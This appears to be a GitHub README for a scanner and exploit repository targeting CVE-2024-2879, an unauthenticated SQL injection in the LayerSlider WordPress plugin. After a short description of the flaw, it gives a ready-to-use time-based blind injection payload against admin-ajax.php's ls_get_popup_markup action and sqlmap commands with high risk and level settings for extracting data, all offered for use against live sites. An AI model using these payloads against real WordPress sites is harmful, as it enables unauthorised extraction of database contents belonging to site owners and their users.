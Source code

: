 # CVE-2024-2879

## Description
LayerSlider 7.9.11 - 7.10.0 - Unauthenticated SQL Injection

The LayerSlider plugin for WordPress is vulnerable to SQL Injection via the `ls_get_popup_markup` action in versions 7.9.11 and 7.10.0 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Scanner Usage
1. Install requirements: pip install -r requirements.txt
2. python3 scan.py <url> or <urllist.txt>
![image](https://github.com/herculeszxc/CVE-2024-2879/assets/62851950/7a5a276c-dba3-4278-9455-d15af843e65c)

## Manual Checking if the website is not protected with WAF
`"http://site.com/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=1)and (SELECT 6416 FROM (SELECT(SLEEP(5)))nEiK)-- vqlq"`
5 seconds delay response time
![image](https://github.com/herculeszxc/CVE-2024-2879/assets/62851950/8319b112-13f4-4771-b005-fc6496f36af3)


## SQL Map Exploitation
`sqlmap "https:://site.com/wp-admin/admin-ajax.php?action=ls_get_popup_markup&id[where]=" --risk=3 --level=4 --dbms=mysql --technique=T`
or
`sqlmap -r request.txt --risk=3 --level=4 --dbms=mysql --technique=T`
